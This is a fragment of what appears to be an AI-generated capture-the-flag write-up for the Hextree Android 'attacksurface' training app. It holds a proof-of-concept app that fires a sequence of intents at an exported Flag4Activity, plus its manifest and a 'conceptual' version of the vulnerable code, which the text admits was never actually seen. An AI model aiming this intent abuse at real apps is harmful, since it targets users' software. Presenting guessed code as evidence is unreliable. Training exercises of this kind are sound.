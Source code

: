 android.content.Intent;\nimport android.os.Bundle;\nimport android.util.Log;\nimport android.widget.Toast;\n\npublic class MaliciousFlag4PoC extends Activity {\n\n    private static final String TAG = "MaliciousFlag4PoC";\n    private static final String TARGET_PACKAGE = "io.hextree.attacksurface";\n    private static final String TARGET_ACTIVITY = "io.hextree.attacksurface.activities.Flag4Activity";\n\n    @Override\n    protected void onCreate(Bundle savedInstanceState) {\n        super.onCreate(savedInstanceState);\n        Log.d(TAG, "MaliciousFlag4PoC started.");\n        Toast.makeText(this, "Sending intents to Flag4Activity...", Toast.LENGTH_LONG).show();\n\n        sendIntent("PREPARE_ACTION");\n        sendIntent("BUILD_ACTION");\n        sendIntent("GET_FLAG_ACTION");\n        sendIntent(null); // Send an empty action to trigger success(this)\n\n        Toast.makeText(this, "Intents sent. Check target app for flag.", Toast.LENGTH_LONG).show();\n        finish(); // Close the malicious activity\n    }\n\n    private void sendIntent(String action) {\n        Intent intent = new Intent();\n        intent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n        if (action != null) {\n            intent.setAction(action);\n        }\n        try {\n            startActivity(intent);\n            Log.d(TAG, "Sent intent with action: " + (action != null ? action : "null (to trigger success)"));\n        } catch (Exception e) {\n            Log.e(TAG, "Failed to send intent with action " + action + ": " + e.getMessage());\n            Toast.makeText(this, "Error sending intent: " + e.getMessage(), Toast.LENGTH_SHORT).show();\n        }\n    }\n}\n```'), Part(video_metadata=None, thought=None, inline_data=None, file_data=None, thought_signature=None, code_execution_result=None, executable_code=None, function_call=None, function_response=None, text='\n\n'), Part(video_metadata=None, thought=None, inline_data=None, file_data=None, thought_signature=None, code_execution_result=None, executable_code=None, function_call=None, function_response=None, text='```xml\n\n<?xml version="1.0" encoding="utf-8"?>\n<manifest xmlns:android="http://schemas.android.com/apk/res/android"\n    package="com.example.maliciousapp">\n\n    <application\n        android:allowBackup="true"\n        android:label="MaliciousFlag4PoC"\n        android:supportsRtl="true">\n        <activity\n            android:name=".MaliciousFlag4PoC"\n            android:exported="true">\n            <intent-filter>\n                <action android:name="android.intent.action.MAIN" />\n                <category android:name="android.intent.category.LAUNCHER" />\n            </intent-filter>\n        </activity>\n    </application>\n</manifest>\n```'), Part(video_metadata=None, thought=None, inline_data=None, file_data=None, thought_signature=None, code_execution_result=None, executable_code=None, function_call=None, function_response=None, text='\n\n### **Vulnerable Code Snippet (Evidence)**\nThe vulnerability lies within the `io.hextree.attacksurface.activities.Flag4Activity` (which was not directly accessible for analysis in this environment) and its handling of exported intents, particularly how it processes the sequence of "PREPARE_ACTION", "BUILD_ACTION", "GET_FLAG_ACTION" and then any subsequent intent to trigger a success condition. The `MaliciousFlag4PoC.java` demonstrates the intended exploit flow based on the challenge\'s design.\n\n**File:** `sources/io/hextree/attacksurface/activities/Flag4Activity.java` (Assumed location based on package name)\n**Function/Method:** Likely within `onCreate`, `onNewIntent`, or a custom method handling intent actions.\n**Line Number (Approximate):** N/A (code not directly available)\n\n'), Part(video_metadata=None, thought=None, inline_data=None, file_data=None, thought_signature=None, code_execution_result=None, executable_code=None, function_call=None, function_response=None, text='```java\n// Conceptual representation of the vulnerable logic within Flag4Activity.java\n// (Actual code was not directly available for static analysis in this environment)\npublic class Flag4Activity extends Activity {\n    private int state = 0; // 0: initial, 1: prepared, 2: built, 3: flag_ready\n\n    @Override\n    protected void onCreate(Bundle savedInstanceState) {\n        super.onCreate(savedInstanceState);\n        handleIntent(getIntent());\n    }\n\n    @Override\n    protected void onNewIntent(Intent intent) {\n        super.onNewIntent(intent);\n        setIntent(intent); // Update the current intent for subsequent calls to getIntent()\n        handleIntent(intent);\n    }\n\n    private void handleIntent(Intent intent) {\n        String action = intent.getAction();\n        if ("PREPARE_ACTION".equals(action) && state == 0) {\n            state = 1; // Transition to prepared state\n            Toast.makeText(this, "Prepared!", Toast.LENGTH_SHORT).show();\n        } else if ("BUILD_ACTION".equals(action) && state == 1) {\n            state = 2; // Transition to built state\n            Toast.makeText(this, "Built!", Toast.LENGTH_SHORT).show();\n        } else if ("GET_FLAG_ACTION".equals(action) && state == 2) {\n            state = 3; // Transition to flag_ready state\n            Toast.makeText(this, "Flag ready!", Toast.LENGTH_SHORT).show();\n        } else if (state == 3) { // Any intent after flag_ready state\n            success(this); // This is the vulnerable sink, likely displays the flag\n        } else {\n            Toast.makeText(this, "Invalid state or action.", Toast.LENGTH_SHORT).show();\n        }\n    }\n\n    private void success(Context context) {\n        // This method likely displays the flag\n        Toast.makeText(context, "FLAG: You found the secret flag!", Toast.LENGTH_LONG).show();\n        // Or writes it to a log, or updates a